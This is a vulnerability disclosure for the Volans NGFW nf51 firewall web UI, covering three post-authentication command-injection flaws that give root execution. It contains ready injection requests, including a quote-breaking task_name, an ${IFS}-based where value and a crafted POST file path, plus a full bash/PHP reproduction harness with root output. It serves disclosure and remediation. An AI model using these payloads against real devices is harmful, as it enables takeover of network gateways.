

# Volans NGFW (nf51) Next-Generation Firewall / Internet Behavior Management Gateway

- Vendor: Volans (飞鱼星科技 / ADSLR, adslr.com)
- Product: NGFW Next-Generation Firewall / Internet Behavior Management Gateway
- Product Model: nf51 (internal version r5.1, source tree NGFW_R5.0)
- Firmware Version: nf51.bin (filesystem date 2021-09-01)
- Vulnerability Type: HoverUI legacy-framework post-authentication command injection in three backend endpoints → root RCE (CWE-78)

# Description

The Web management UI of the Volans NGFW r5.1 is driven by the **HoverUI** legacy PHP framework, which routes requests as `/webui/?g=<action>` and dispatches them via `indexmods/*.mod` to `modules/**/*.mds`. The framework ships a strict allowlist `check_command_injection()` (only `[A-Za-z_0-9.]`) and a blacklist `check_command_injection_blacklist()` (only 3 tokens), but the two guards are used **inconsistently**: the three sinks fall into "severely incomplete blacklist", "allowlist applied to the wrong variable", and "no guard at all". All three concatenate user input directly into an `exec()`/`system()` `/bin/sh -c` command line and are reachable **post-authentication**.

# Impact

Three backend endpoints (port-scan result export, history-log export, UAC file-download check) allow **arbitrary command execution post-authentication** as **uid=0(root)** ⇒ full device compromise. The missing guard discipline is a **systemic** defect — any code change can introduce a new instance of the same class.

# Vulnerability Details

## 1. Affected Component and Root Cause

`index.php:28-32` `require_once`s `log.mod`(:46)/`ips.mod`(:51) **after** the login check; all three sinks live in those modules, and none of the three target actions matches any `checkLoginState()` exemption ⇒ **reachable post-authentication**.

### Item 1 — `port_result_export` (`modules/assets/port_serve_scan.mds:545-579`)

```php
case 'port_result_export':
    foreach($_GET as $key =>$value){
        if($key != 'g'){ check_command_injection_blacklist($value); }   // :549 <- the only guard
    }
    $task_name = "'" . $_GET['task_name'] . "'";                        // :568 <- raw $_GET, no formatget
    exec("/usr/local/sbin/port_scan_data_export.sh $file_path $file_name $table_name 1 1 $task_name $start_time $lang", $results);
```

The entire blacklist is `preg_match("/(\|\|\| )|(\s*ping\s-n\s*)|(\s*touch\s*)/i", $p)` — it only blocks `||| `, `ping -n`, `touch `; it does not block `|`, `;`, backticks, `$()`, `>`, `<`, `&`, or newlines.

### Item 2 — `log_history_export` (`modules/log/security_domain.mds:424-442`)

```php
if( $get_url_param == 'log_history_export'){
    $log_type = formatget($_GET['log_type']);
    check_command_injection($log_type);          // :426 <- allowlist, but applied to $log_type
    $where = formatget($_GET['where']);          // :430 <- the variable that actually reaches the shell, no allowlist
    ...
    exec("/usr/local/sbin/$flush_sqlite_log_data_sh $folder $file $table /tmp/local_tmp.db $where",$results);  // :442
```

`formatget()` strips all spaces, and `stripslashes()` undoes the `magic_quotes_gpc` escaping — hence the payload uses `${IFS}` instead of spaces.

### Item 3 — `log_uac_file_attachements_check` (`modules/log/uac_nbc.mds:2240-2275`)

```php
$file = ($_POST['file']) ? $_POST['file'] : "";   // :2248 <- raw POST, no guard at all
$folder = ($_POST['path']) ? $_POST['path'] : "";
if($file){
    $ret = get_download_file_info($file,"/");
    $path = $ret['v1'];                            // :2253 <- the part before the first '/'
    ...
    system("/usr/local/sbin/file_download.sh $path \"$tmp_name\"");   // :2271 <- $path unquoted
```

`$_POST['file']`/`$_POST['path']` pass through no `formatget`/`formatpost`/`check_command_injection*`; `$path` is unquoted in the `system()` command-name position; the only barrier is a `file_exists()` existence check (**not a security check**).

## 2. Authentication Prerequisite

**A valid Web management session is required (post-auth).** None of the three target actions matches the `checkLoginState()` exemption (which only exempts the `nobusiness_` prefix and `page_frame_timeout`/`sys_auto_do_script_data_delete`), and the sink-bearing `.mod` files are `require_once`d after the check ⇒ the attacker must log in first.

## 3. Proof of Concept

Trigger chains (none of the payloads contains a blocked token):

```
Item 1: GET /webui/?g=port_result_export&task_name=x';id>…;#   → :575 exec parses ; → root
Item 2: GET /webui/?g=log_history_export&log_type=test&where=;id|tee${IFS}…;# → :442 exec
Item 3: POST /webui/?g=log_uac_file_attachements_check  file=;id>…#/a → :2271 system
```

### PoC script (one-shot; save as `run05.sh` and run as root)

All three sinks are "parameter → direct concatenation → shell" and do not depend on engine return values, so the PoC runs the vendor's real `.mds` via `php7.4` CLI. The harness bypasses only the "session acquisition" step (the guard functions are copied verbatim from `include/func.inc`); reachability of each action after login was established from the routing and login-gate code, not by an end-to-end authenticated HTTP request.

```bash
#!/bin/bash
# ① harness: copy the vendor's guards verbatim + no-op stubs
mkdir -p /tmp/fxharness /tmp/qtest
cat > /tmp/fxharness/stub.php <<'PHPEOF'
<?php
function check_command_injection($p){
    if(!preg_match('/^[A-Za-z_0-9.]*$/',$p)){ header("Location:/webui/?g=page_frame_error"); exit; }
}
function check_command_injection_blacklist($p){
    return preg_match("/(\|\|\| )|(\s*ping\s-n\s*)|(\s*touch\s*)/i", $p);
}
function formatget($name,$trim=1){
    $name = str_replace(" ","",$name);
    return trim(stripslashes(htmlspecialchars($name)));
}
function formatpost($name,$trim=1){
    return trim(stripslashes(htmlspecialchars($name)));
}
function sapl_get_language(){ return 'cn'; }
function getPageAttr(){ return ''; }
function template(){ return ''; }
function getResponse(){ return array(); }
function getAssign(){ return array(); }
function get_jsondata(){ return ''; }
function mkfile($d){ @mkdir($d,0777,true); }
function debugMode(){}
function endSystem(){}
function initSystem(){}
function get_anti_theft_chain_reverse_url(){ return ''; }
class pgsql { public $t; function __construct($t){ $this->t=$t; } function checkConnect(){ return FALSE; } }
class pgsql_pdo {}
class PDO_Sqlite3 {}
PHPEOF
sed '/sql_special_characters_filter/d' /tmp/fxharness/stub.php > /tmp/fxharness/stub2.php

# ② exp 1 — port_result_export (inject task_name)
cat > /tmp/fxharness/r_ps.php <<'PHPEOF'
<?php
$db_flag = 1; $language_id = 0; define('TPLDIR','/tmp'); define('S_ROOT','/tmp/');
$_SESSION = array(); $_SERVER['REMOTE_ADDR']='127.0.0.1';
require '/tmp/fxharness/stub.php';
$get_url_param = 'port_result_export';
$_GET['g'] = 'port_result_export';
$_GET['task_name'] = "x';id>/tmp/qtest/PS_RCE;#";
$_GET['start_time'] = "y";
require '/path/to/webui/modules/assets/port_serve_scan.mds';
PHPEOF

# ③ exp 2 — log_history_export (inject where; ${IFS} avoids formatget stripping spaces)
cat > /tmp/fxharness/r_sd.php <<'PHPEOF'
<?php
$db_flag = 0; $language_id = 0; define('TPLDIR','/tmp'); define('S_ROOT','/tmp/');
$_SESSION = array(); $_SERVER['REMOTE_ADDR']='127.0.0.1';
require '/tmp/fxharness/stub.php';
$get_url_param = 'log_history_export';
$_GET['log_type'] = 'test';
$_GET['where']    = ";id|tee\${IFS}/tmp/qtest/SD_RCE;#";
require '/path/to/webui/modules/log/security_domain.mds';
PHPEOF

# ④ exp 3 — log_uac_file_attachements_check (inject file; existence precondition; relative redirect)
mkdir -p '/disk/mail/;id>UN_RCE;#'; touch '/disk/mail/;id>UN_RCE;#/a'
cat > /tmp/fxharness/r_un.php <<'PHPEOF'
<?php
$db_flag = 1; $language_id = 0; define('TPLDIR','/tmp'); define('S_ROOT','/tmp/');
$_SESSION = array(); $_SERVER['REMOTE_ADDR']='127.0.0.1';
require '/tmp/fxharness/stub2.php';
$get_url_param = 'log_uac_file_attachements_check';
$_POST['file'] = ";id>UN_RCE;#/a";
$_POST['path'] = "mail";
require '/path/to/webui/modules/log/uac_nbc.mds';
PHPEOF

# ⑤ run
PHP="php7.4 -c /dev/null -d short_open_tag=1 -d error_reporting=0 -d display_errors=0"
cd /tmp/fxharness
rm -f /tmp/qtest/PS_RCE /tmp/qtest/SD_RCE ./UN_RCE
$PHP r_ps.php >/dev/null 2>&1; echo "PS: $(cat /tmp/qtest/PS_RCE 2>&1)"
$PHP r_sd.php >/dev/null 2>&1; echo "SD: $(cat /tmp/qtest/SD_RCE 2>&1)"
$PHP r_un.php >/dev/null 2>&1; echo "UN: $(cat ./UN_RCE 2>&1)"
```

Run: `sudo bash run05.sh` (must run as root, matching the device's root context). Item 1 concatenated command: `port_scan_data_export.sh … 1 1 'x';id>/tmp/qtest/PS_RCE;#' 'y' 0`.

Dynamic verification evidence (verbatim from the verification run):

```
### SINK1 port_serve_scan / port_result_export           -> uid=0(root) gid=0(root) groups=0(root)
### SINK2 security_domain / log_history_export           -> uid=0(root) gid=0(root) groups=0(root)
### SINK3 uac_nbc / log_uac_file_attachements_check      -> uid=0(root) gid=0(root) groups=0(root)
### NEG-CONTROL (all three benign, empty cwd): no artifacts
```

> Reproduction must run as **root** (`sudo -i`): `/tmp/fxharness`, `/tmp/qtest` and `/disk` are root-owned, and running as root makes `id` print `uid=0(root)` to match the device's root context (the device's `webserver.conf` has no privilege drop; lighttpd/php-cgi runs as root).

> 
>
> 

## 4. Root Cause Summary

The framework guards (a strict allowlist + a 3-token blacklist) are used inconsistently: the three sinks fall into "incomplete blacklist / allowlist on the wrong variable / no guard", so user input is concatenated directly into `exec()`/`system()` `/bin/sh -c` ⇒ post-auth command injection (CWE-78).

## 5. Remediation

1. Route every shell execution through a single exit point; `escapeshellarg()` / allowlist-enumerate all arguments; **never concatenate user input into the `exec()`/`system()` command name or argument positions**;
2. Fix the three sinks: add an allowlist to `$task_name` in `port_result_export`; move the `log_history_export` allowlist onto `$where`; add an allowlist + `escapeshellarg()` to `$file`/`$path` in `log_uac_file_attachements_check`;
3. Never use `file_exists()` as a security check;
4. Run a full audit of command-execution sites in `modules/assets`, `modules/log`, etc., and classify each as exploitable or not.
